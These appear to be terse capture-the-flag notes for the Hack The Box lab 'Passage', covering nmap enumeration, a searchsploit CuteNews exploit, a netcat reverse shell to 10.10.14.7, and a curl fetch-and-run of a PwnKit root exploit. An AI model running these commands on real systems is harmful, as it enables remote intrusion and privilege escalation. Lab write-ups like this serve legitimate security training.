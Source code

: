 Passage
========================

## Enumeration

    sudo nmap -sU -p 53,161,111,137,139,500,2049 -Pn passage.htb | tee nmap_udp_output.txt

![qownnotes-media-pZSaEL](../../../media/qownnotes-media-pZSaEL.png)

    sudo nmap_enum passage.htb | tee nmap_output.txt

![qownnotes-media-NeXDOE](../../../media/qownnotes-media-NeXDOE.png)


![qownnotes-media-UrySkB](../../../media/qownnotes-media-UrySkB.png)

## Exploitation

    searchsploit cute news
    
    searchsploit -x php/webapps/48800.py
    
    ## Tested on Ubuntu
    
    cp /usr/share/exploitdb/exploits/php/webapps/48800.py exploit_temp.py

    python exploit_temp.py
    http://passage.htb

![qownnotes-media-JXfSzN](../../../media/qownnotes-media-JXfSzN.png)

    nc -e /bin/bash 10.10.14.7 80
    rlwrap nc -nlvp 80
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    export TERM=xterm
    <CTRL+Z>
    stty raw -echo; fg
    reset
 
## Privilege Escalation

    find / -perm -u=s -type f 2>/dev/null
    cat /proc/version
    curl http://10.10.14.7:8000/PwnKit_comp -o pwnkit
    chmod +x pwnkit
    ./pwnkit
    
![qownnotes-media-osbEVi](../../../media/qownnotes-media-osbEVi.png)
 